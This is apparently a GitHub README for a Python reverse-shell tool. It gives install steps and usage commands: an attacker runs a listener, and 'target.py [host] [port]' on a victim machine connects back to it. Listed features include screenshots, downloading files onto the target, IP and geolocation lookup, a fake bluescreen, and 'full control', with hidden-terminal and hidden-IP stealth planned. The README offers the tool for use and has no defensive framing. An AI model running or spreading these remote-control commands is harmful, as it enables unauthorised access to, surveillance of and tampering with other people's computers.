

# Reverse Shell #

Reverse shell implementation using Python.
<br/><br/>

<p align="center">
  
</p>


## Installation ##
**NOTE**: Python 3.6 or higher is required.

```bash
# clone the repo
$ git clone https://github.com/jcs090218/ult_reverse_shell

# change the working directory to reverse shell
$ cd ult_reverse_shell

# install python3 and python3-pip if not exist

# install the requirements
$ pip3 install -r requirements.txt
```

## Usage ##
### 1. Listen for target ###
On attacker machine, run the `attacker.py` script.
```
python3 attacker.py [port]
```

### 2. Execute reverse shell ###
On target machine, run the `target.py` script.
```
python3 target.py [host] [port]
```


## Commands ##
```sh
# Halt
!dc            Disconnect the target from this host, target will start reconnection process.
!shutdown      Shutdown both `attacher` and `target`.

# Listen
!screenshot    Screenshot the target machine.

# Cheat
!bluescreen    Fake bluescreen. (Windows Only)
!dl            Download file by URL onto the target machine.

# Information
!wan_ip        Get the WAN IP.
!lan_ip        Get the LAN IP.
!geo_info      Get the geolocation on the target device.
```


## Features ##
### Implemented ###
* Auto reconnection
* Downloader (Download file to target machine)
* Screenshot
* Full control on the target machine.

### Not Implemented ###
* Packet encoder/decoder.


## TODOs ##
* Bluescreen (Fake)
* Hidden IP
* Hidden terminal
* Multi-target listening
